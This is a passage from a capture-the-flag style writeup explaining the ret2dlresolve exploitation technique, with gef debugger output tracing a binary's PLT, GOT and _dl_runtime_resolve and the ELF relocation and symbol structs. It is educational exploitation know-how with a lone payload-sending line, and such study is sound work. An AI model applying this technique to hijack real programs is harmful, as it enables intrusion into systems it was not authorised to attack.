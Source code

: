 ```python 
p.send(payload)
```

In this writeup, I will discuss all my failed attempts as well because they show how much there is to Ret2dlResolve. 

<h2>Attempt 1: Ret2dlResolve</h2>

This exploit is what I think of when I heard ret2dlResolve and it involves construction of a bunch of fake tables. 

When a function is called for the first time and lazy loading is used(partial-Relo) the plt function will jump to the address in the GOT. When the GOT is first created it holds points back into the plt which will call dl_resolve. 
```bash
gef➤  x/4i 134513552
   0x8048390 <read@plt>:        jmp    DWORD PTR ds:0x804b00c     # CALLS GOT
   0x8048396 <read@plt+6>:      push   0x0                        # Uninislized GOT calls back here  
   0x804839b <read@plt+11>:     jmp    0x8048380
   0x80483a0 <strlen@plt>:      jmp    DWORD PTR ds:0x804b010
gef➤  x/wx 0x804b00c
0x804b00c <read@got.plt>:       0x08048396
gef➤  x/3i 0x08048396
   0x8048396 <read@plt+6>:      push   0x0
   0x804839b <read@plt+11>:     jmp    0x8048380
   0x80483a0 <strlen@plt>:      jmp    DWORD PTR ds:0x804b010
gef➤  x/3i 0x8048380
   0x8048380:   push   DWORD PTR ds:0x804b004
   0x8048386:   jmp    DWORD PTR ds:0x804b008
   0x804838c:   add    BYTE PTR [eax],al
gef➤  x/1wx 0x804b008
0x804b008:      0xf7fd8fe0
gef➤  x/10i 0xf7fd8fe0
=> 0xf7fd8fe0 <_dl_runtime_resolve>:    endbr32
   0xf7fd8fe4 <_dl_runtime_resolve+4>:  push   eax
   0xf7fd8fe5 <_dl_runtime_resolve+5>:  push   ecx
   0xf7fd8fe6 <_dl_runtime_resolve+6>:  push   edx
   0xf7fd8fe7 <_dl_runtime_resolve+7>:  mov    edx,DWORD PTR [esp+0x10]
   0xf7fd8feb <_dl_runtime_resolve+11>: mov    eax,DWORD PTR [esp+0xc]
   0xf7fd8fef <_dl_runtime_resolve+15>: call   0xf7fd6e90 <_dl_fixup>
   0xf7fd8ff4 <_dl_runtime_resolve+20>: pop    edx
   0xf7fd8ff5 <_dl_runtime_resolve+21>: mov    ecx,DWORD PTR [esp]
   0xf7fd8ff8 <_dl_runtime_resolve+24>: mov    DWORD PTR [esp],eax
```

For dl_resolve there are 2 main structs and three sections that we need to know about
```bash
gef➤  ptype Elf32_Rel
type = struct {
    Elf32_Addr r_offset;
    Elf32_Word r_info;
}
gef➤  ptype Elf32_Sym
type = struct {
    Elf32_Word st_name;
    Elf32_Addr st_value;
    Elf32_Word st_size;
    unsigned char st_info;
    unsigned char st_other;
    Elf32_Section st_shndx;
}
```
